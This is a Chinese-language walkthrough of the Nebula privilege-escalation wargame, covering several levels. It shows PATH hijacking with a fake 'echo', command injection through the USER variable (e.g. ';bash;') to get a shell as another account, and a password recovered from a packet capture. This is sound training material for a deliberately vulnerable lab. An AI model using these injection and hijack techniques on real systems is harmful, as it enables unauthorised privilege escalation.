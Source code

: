 # Nebula

## level00
用`level00`账户登录，找出由`flag00`拥有的 Set User ID的程序

### Solution
要将错误结果送到/dev/null，不然出现很多 Permission denied, 会影响找到该程序。
```sh
$ find / -user flag00 2>/dev/null
/bin/.../flag00
/home/flag00
/home/flag00/.bash_logout
/home/flag00/.bashrc
/home/flag00/.profile
/rofs/bin/.../flag00
/rofs/home/flag00
/rofs/home/flag00/.bash_logout
/rofs/home/flag00/.bashrc
/rofs/home/flag00/.profile
```
尝试了一下，`/rofs/bin/.../flag00`即为目标程序。
```sh
level00@nebula:~$ file /rofs/bin/.../flag00
/rofs/bin/.../flag00: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, not stripped
level00@nebula:~$ ll /rofs/bin/.../flag00
-rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 /rofs/bin/.../flag00*
level00@nebula:~$ /rofs/bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
flag00@nebula:~$ which getflag
/bin/getflag
flag00@nebula:~$ file /bin/getflag
/bin/getflag: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, not stripped
flag00@nebula:~$ whoami
flag00
flag00@nebula:~$ id
uid=999(flag00) gid=1001(level00) groups=999(flag00),1001(level00)
flag00@nebula:~$
```
## level01
通过看源文件 level1.c
发现要要通过`system()`来执行shell命令。
```c
system("/usr/bin/env echo and now what?");
```
发现可以对`echo`命令做一下手脚。
在一个有权限的目录下新建一个名为echo的文件，
然后将当前目录加入到`PATH`环境变量的前面使得`/usr/bin/env`在找环境变量的时候
先找到我们自己写的这个echo命令(只是暂时生效所以不需要export)。
```
PATH=`pwd`:$PATH
```
然后在这个我们自己写的echo文件中写入**getflag**就可以以flag01的身份得到flag了。
## level02
查看源文件level02.c
发现
```c
char *buffer = NULL;

asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
        
system(buffer);
```
要从系统环境变量中得到$USER变量。然后执行`/bin/echo %s is cool`。
由于这里已经写死了。用`/bin/echo`这个可执行文件，所以我们不能对echo文件做手脚了。
然而这个$USER变量是我们可控的。
于是我们
```sh
USER=";bash;"
```
这样就已flag02的身份得到bash了.
```sh
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo level02 is cool")
level02 is cool
level02@nebula:/home/flag02$ echo $USER
level02
level02@nebula:/home/flag02$ USER=";bash;"
level02@nebula:/home/flag02$ echo $USER
;bash;
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo ;bash; is cool")

flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```
然后就可以在flag02的shell里面执行`getflag`得到shell了。
或者直接
```sh
$ USER="test && /bin/getflag"
```
反正这个 $USER 变量是我们可控的，我们可以已flag03的身份执行任意字符串。
## level03

```sh
for i in /home/flag03/writeable.d/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```
其中ulimit -t 5控制CPU时间不超过5秒，bash -x "$i"用于执行$i文件。执行完之后删除文件本身。



## level07
参考:
http://blog.yyx.me/posts/exploit-exercises-nebula-level-05-09.html
在`/home/flag07`目录下找到一个`capture.pcap`，所以拖出来到宿主机上用wireshark分析。跟踪TCP流，发现
`Password: backdoor...00Rm8.ate`
根据经验，一般16进制工具中.都是代表\0，就是字符串结尾（其实.表示不可读字符，一般在一堆字符串中时基本就是\0），所
以密码应该是backdoor。尝试登录，错误！于是在wireshark中吧TCP包切换到HEX显示，发现这段数据信息如下：
`
000000B9  62                                                 b
000000BA  61                                                 a
000000BB  63                                                 c
000000BC  6b                                                 k
000000BD  64                                                 d
000000BE  6f                                                 o
000000BF  6f                                                 o
000000C0  72                                                 r
000000C1  7f                                                 .
000000C2  7f                                                 .
000000C3  7f                                                 .
000000C4  30                                                 0
000000C5  30                                                 0
000000C6  52                                                 R
000000C7  6d                                                 m
000000C8  38                                                 8
000000C9  7f                                                 .
000000CA  61                                                 a
000000CB  74                                                 t
000000CC  65                                                 e
000000CD  0d                                                 .
`
![](img/屏幕快照 2016-11-12 下午7.40.33.png)
![](img/屏幕快照 2016-11-12 下午7.50.11.png)
![](img/屏幕快照 2016-11-12 下午7.50.16.png)
竟然是7F，查ASCII码表发现7F是Backspace（退格），0D是CR（回车），所以就按照这个顺序重新比划了下，
得到密码是backd00Rmate
